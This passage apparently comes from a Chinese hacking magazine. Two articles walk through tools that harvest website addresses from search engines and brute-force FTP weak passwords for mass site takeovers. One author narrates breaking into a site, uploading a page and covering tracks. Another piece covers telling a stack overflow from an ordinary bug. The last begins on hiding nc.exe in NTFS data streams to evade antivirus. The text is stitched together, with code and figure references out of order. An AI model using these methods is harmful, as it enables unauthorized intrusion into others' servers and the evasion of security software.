

图2

仔细一看，原来所有的账号和密码都是网站的域名，比如网站域名为“www.baidu.com”，那么它的 FTP 账号和密码就是 baidu。到这里我就怀疑该群员的批量拿站很可能是使用了工具进行的自动扫描。不过，想想这招也挺好的，肯定有一些图省事的网站站长，把域名直接作为了 FTP 的账号和密码。于是我就萌生了自己也编写一个类似工具的念头，具体的编写过程我就不介绍了，大家还是直接看工具的使用吧。

工具打开后的界面如图1所示，界面还是比较简单的。由于我是第一次使用 VB.NET 编写程序，所以也费了好大的精力才完成。其中程序上方的空白框位置是网址打开的地方，会在这儿显示打开的网页。我着重介绍一下每个按钮和文本框的作用。

首先我们可以在“请输入任意字符”那里输入自己想要搜索的关键字，这里提供了两种搜索方式，一种是百度，另一种就是 Google。我建议大家使用百度，因为国内的网站存在这种漏洞的概率更大，安全意识相对更低些。接下来在软件的上方会显示搜索出的界面，我们不用管它，直接查看“提取网址”的地方。在这里软件会把页面中的超链接全部收录出来，其中百度和 Google 等比较著名的网址默认是不会扫描的，这样可以节约大家的时间。

最后我们点击“开始”按钮，程序就会弹出如图2所示的提示，这时候猜解就会自动开始，左下角的地方会显示出进度。速度比较慢，因为程序的线程是30，这时候我们可以把程序最小化，去喝杯茶或者稍微休息一会儿。

如果程序扫描到 FTP 弱口令的时候，就会自动发出声音，并且在系统的托盘处有气泡提示。这些大家在自己试验的时候就会发现了。如果我们扫描完毕，还可以选择“保存结果”，把结果保存到本地，如图3所示。当然大家也可以直接在测试成功的网址上双击，程序就会为我们自动连接到该网站的 FTP 上去，如果不出意外的话就会直接连接成功了。另外，我们还可以选择自己想要的网站去提取网址，只要在“EchoEye”的文本框中输入相应的地址即可，然后点击“打开网页”，后面的操作和上文都是一样的。如果大家觉得提取的网址过多，这时候还能通过“清理提取的网址”这个功能来清除。

到此，工具的简单使用就为大家介绍完了。最后说一下“一键自动开始”这个功能，它会自己生成随机关键字，然后通过 Google 来提取网址，并且自动开始扫描，这特别适合和我一样懒的小菜使用，只要点一下，然后最小化，我们就不用管它了，等结束后它就会弹出提示完成。

- 1. 在搜索的时候最好选比较靠后的几页，因为前面的网站漏洞较少，这毕竟是一种大海捞针的方法。
- 2. 可能有时候程序会较慢，请大家耐心等待，等到提示程序运行结束。
- 3. 由于是 VB.NET 编写的，所以需要 .NET Framework 的支持，大家可以到网上搜索“Microsoft .NET Framework 2.0”找到很多下载链接。



图3

> （文章中涉及到的探测 FTP 弱口令工具，已收录在了光盘中）

### 菜鸟须知——区别 Bug 与漏洞

BaseNet

现在越来越多的人爱上了漏洞发掘，在越来越多的教程、傻瓜工具面前，有时候我们却忽略了最基本的概念，比如 Bug 和漏洞。当我们 fuzzing 一个程序时，一旦发现 Windows 弹出异常提示，就可能以为发现了缓冲区溢出漏洞。一个异常提示到底是真正的漏洞还是鸡肋的 Bug，需要一点点小技巧。

```c
{
    char longbuf[100]="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa";
    overflow(longbuf);
    return 0;
}
```

#### 一、设置调试器

方法很简单，就是设置异常实时调试器。如果安装了 VC++，默认会调用该集成开发环境中的调试器，当然也许你对 VC++ 并不“来电”，这时候可以使用逆向利器——OllyDbg（以下简称 OD）。首先运行 OD，依次选择“选项”——“实时调试器设置”——“设置 OllyDbg 为实时调试器”（如图1）。

直接运行一起来打包的 overflow.exe，就会自动调试实时调试器 OD（如图2，有的机器会有一个异常提示，需要取消按钮才可以启动实时调试器，在虚拟机中的效果一般不明显）。



图1



图2

设置完成后，来两个小例子看一下漏洞与 Bug 的区别。

#### 二、漏洞程序示例

下面是一个比较典型的子函数的缓冲区溢出示例。

```c
// overflow.exe
void overflow(char* buf)
{
    char des[5];
    strcpy(des,buf); // overflow
}

int main(int argc,char *argv[])
```



图3

此时观察寄存器界面与栈区，很容易发现当前 EIP 指向的是 aaaa 的地址，即 EIP 的内容为缓冲区中的数据。因此可以很容易地判断这是一个典型的漏洞。

#### 三、Bug 示例

Bug 出现的原因有很多，在实际操作中碰到的最多是异常。异常指的是 CPU 执行指令时产生的问题，Windows 中有 N 多的异常，比如单步执行异常、内存访问异常、内存未对齐异常（IA64 中）等等。Bug 示例代码只有一句——`*(int *)0 = 0;`，向内存地址 `0x00000000` 写入数据 0，这会产生一个内存访问异常。

运行一起打包的 bug.exe，在 OD 中的状态（如图3）。

OD 最下方的状态栏会提示“正在写入到[0000 0000]，使用 Shift + F7/F8/F9 来忽略程序异常”。寄存器窗口中的 EIP 指向为下一条指令的地址。对比以上两个程序在 OD 中的状态，就很容易理解怎么区分 Bug 和漏洞了。

缓冲区溢出漏洞一般是当前 EIP 指向栈区或堆区中保存的 fuzzing 的数据内容，而 Bug 往往是局限于指令执行期间的一些异常。

（文章中所涉及到的源码工具已经收录在了光盘中）

## 原来黑站这么简单——看来马前卒也会站

hx小龙

这天在 QQ 群和朋友们聊天，黑客风云站长小亮说是一下午“日”了好多站点，最初我们大家都不以为然，以为又是什么程序爆了 0day，但是随着谈话的深入，发现不是，于是引起了我的好奇心：什么软件可以一下午拿下数十个甚至数百个网站呢？所以我问他讨来了那款软件，随后有了本文。

首先我们打开软件，看看界面，原来是个爆破 FTP 弱口令的软件。程序利用穷举法逐个对网站的 FTP 进行账号和密码的爆破，关键的优点在于这款软件的工作速度很惊人。软件虽然界面简单，但是它的作用和威力可不是大家能小视的哦！（如图1）

下面我们来看它的使用方法。首先在“关键字”处填写我们想要入侵网站类型的优化关键字，大家可以以出现频率比较高的关键字作为搜索对象。本文只是给大家提供一个思路，我们不以破坏为目的，所以这里我以“企业”为关键字进行搜索，默认勾选上“无限扫描”。线程的大小，大家可以根据自己的需求去适当地改变，我这里保持默认100。至于弱口令方面，程序已经为我们默认提供了几组常用的弱口令，如果大家想要爆破更多更强大的网站，那么势必要用到更强大的字典文件了。所以大家如果对当前的字典不满意，我们可以进行补充或替换。输入完这些以后，点击“获取网址”，这时程序就会自动搜索含有该关键字的网站。当网址搜索完毕以后，程序会自动开始模拟的爆破工作，遇到存在弱口令的网站，就会自动显示在“常用弱密码”的下方那个框子中。（如图2）

我刚开了一会儿就有一个网站沦陷了，复制地址在浏览器中打开，成功进入了 FTP，上传一个提示页面，查了下网站 PR，还是 PR3 的，呵呵今天运气不错吧！最后擦屁股走人。（如图3、4、5）











图5

> （文章中所用到的 FTP 弱口令爆破软件已经收录到了光盘中）

## 【安全实战】——再谈NTFS数据流使用技巧

在我的脑海中，大约 04 年的时候 NTFS 数据流就已经是“家喻户晓”。时至今日，把“NTFS数据流”作为关键字放到 Google 里“爬”，依然能搜到大把大把的大于 04 年的信息（说明这个东西一直以来有人在关注）。微软推出个人 PC 的主流操作系统 Win7 后，NTFS 文件系统依然存在，因此 NTFS 数据流是 Windows 世界里的一个常规，需要我们了解、熟悉并适当使用。下面把本菜菜的一些“鸟级”观点写下来，新手入门，高手飞过。

在图1中，将 `1.txt:head.h` 通过 include 预处理将其加入到源文件中，程序能正常编译并且执行成功。

### 一、NTFS数据流基本知识

“流”是有了文件系统以后的一个概念，文件系统可以在包括终端、硬盘驱动程序和磁带驱动器的众多设备上工作。不管设备有多大的差异，文件系统都把它看成“流”的逻辑设备。一般来说流简单地分为两类——文本流和二进制流。

### 二、NTFS数据流用于隐藏文件

通过 NTFS 数据流来隐藏文件是一个不错的主意，很多工具无法检测到它，这也是 NTFS 数据流用于免杀的一种方法。以瑞士军刀 nc.exe 和 360 为例，将 nc.exe 保存为 `c:\test\nc.exe`，360 能检测到（如图2）。



图1

